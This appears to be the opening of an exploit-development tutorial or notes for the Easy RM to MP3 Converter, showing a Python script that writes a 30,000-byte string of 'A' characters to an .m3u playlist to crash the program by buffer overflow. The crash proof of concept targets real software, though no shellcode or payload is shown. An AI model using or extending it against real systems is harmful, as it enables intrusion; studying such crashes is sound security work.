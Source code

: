 # EasyRMtoMP3Converter

## Initial Crash

```py
#!/usr/bin/python 

file = "crash1.m3u"
f = open(file , "w")

CRASH_LEN = 30000  # change me

junk = "A" * CRASH_LEN
f.write(junk)
f.close()
```
